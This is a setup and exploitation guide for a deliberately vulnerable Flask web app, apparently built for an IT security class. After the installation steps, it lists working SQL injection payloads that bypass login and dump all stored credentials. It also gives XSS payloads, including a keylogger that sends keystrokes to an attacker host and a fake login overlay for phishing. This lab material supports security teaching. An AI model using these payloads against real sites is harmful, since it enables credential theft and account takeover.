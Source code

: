 
# Setting up the Web App for the IT security session

## Installing prerequisites
Assuming you have a Debian-based system, you can install the required packages by running the following command:

1. installing pip3 and venv
```bash
sudo apt update && sudo apt install python3-pip python3-venv
```
2. Install flask and cors
```bash
pip3 install flask flask-cors
```
3. Install Pymysql
```bash
pip3 install pymysql
```
4. Install nginx
```bash
sudo apt install nginx
```



## Database Configuration

### Install and Configure MySQL

1. Install MySQL server:

```bash
sudo apt update && sudo apt install mysql-server
```
2. Configure MySQL:

```bash
sudo mysql_secure_installation
```
3. Log in to MySQL:

```bash
sudo mysql
```
4. Create a new database:
   replace `mydb` with the name of your database and `admin` with the name of your user and `password` with the password of your user.
```sql
CREATE DATABASE mydb;
USE mydb;
CREATE USER 'admin'@'localhost' IDENTIFIED BY 'password';
CREATE TABLE credentials (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL
);
INSERT INTO credentials (user, password) VALUES ('testuser', 'testpassword');

GRANT ALL PRIVILEGES ON mydb.* TO 'admin'@'localhost';
FLUSH PRIVILEGES;
```
5. Exit MySQL:

```sql
exit;
```

6. set the password as an environment variable, so in the app.py file, you can access it.
```bash
export MYDB_PASS=password
```
## Configuring the Nginx server

1. Create a new configuration file for the web app:
```bash
sudo nano /etc/nginx/sites-available/myflaskapp
```

2. Add the following configuration to the file:
```nginx
server {
    listen 80;
    server_name _;  # wildcard

    location / {
        proxy_pass http://127.0.0.1:5000;  # Point to where Flask is running
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```
3. Create a symbolic link to the sites-enabled directory:
```bash
sudo ln -s /etc/nginx/sites-available/myflaskapp /etc/nginx/sites-enabled
```
4. Restart the Nginx server:
```bash
sudo systemctl restart nginx
```
5. Check the status of the Nginx server:
```bash
sudo systemctl status nginx
```

## Setting up the Web App

1. Clone the repository from GitHub
2. Navigate to the directory where the repository was cloned and app.py is located
3. Run the following command to start the web app:
```bash
python3 app.py
```
4. Then you should see the following output:
```
❯ python3 app.py
 * Serving Flask app 'app'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```
5. Open a web browser and navigate to `http://127.0.0.1:5000` to view the web app.

You should see this like the screenshots below:

![Login Page](Documentation/Screenshot%20from%202024-04-29%2022-21-07.png)
![Register Page](Documentation/Screenshot%20from%202024-04-29%2022-21-55.png)


## Exploiting the Web App

### SQL Injection

1. To login as an admin without knowing the password, enter the following payload in the username field and enter ```attack``` in the password field:
``` sql
' union select 1,'admin','attack'; -- '
```


3. To retrieve all the usernames and passwords from the database, enter the following payload in the username field, again enter ```attack``` in the password field:
``` sql
' union select 1, group_concat(concat_ws('|', user, password) separator ', '), 'attack' from credentials -- '
```

### Cross-Site Scripting (XSS)

1. Simple alert box:
``` html
<img src="" onerror=alert('test')>

<iframe src="javascript:alert('test');"></iframe>

<div onmouseover="alert('test')">Hover over me</div>

<a href="#" onclick="alert('test')">Click here</a>
```

2. Keylogger:
``` html
<img src="" onerror="document.addEventListener('keypress', function(e) { fetch('http://attacker.tld?key=' + String.fromCharCode(e.which)); }); this.remove();">
```

3. Fake Website
``` html
<img src="" onerror="(function(){
  document.body.innerHTML = `
    <div style='position: fixed; top: 0; left: 0; width: 100%; height: 100%; background-color: #f0f2f5; display: flex; justify-content: center; align-items: center;'>
      <div style='background-color: #fff; padding: 20px; border-radius: 8px; box-shadow: 0 2px 4px rgba(0,0,0,0.1); width: 360px; text-align: center;'>
        <h2 style='color: #1877f2; font-family: Helvetica, Arial, sans-serif; margin-bottom: 20px;'>Website</h2>
        <form>
          <input type='text' placeholder='Email or Phone Number' style='width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <input type='password' placeholder='Password' style='width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #ddd; border-radius: 4px; box-sizing: border-box;'>
          <button type='submit' style='width: 100%; padding: 10px; background-color: #1877f2; color: white; border: none; border-radius: 4px; font-size: 16px; cursor: pointer;'>Log In</button>
        </form>
        <div style='margin-top: 10px;'>
          <a href='#' style='color: #1877f2; font-size: 14px; text-decoration: none;'>Forgotten password?</a>
        </div>
      </div>
    </div>
  `;
}())">
```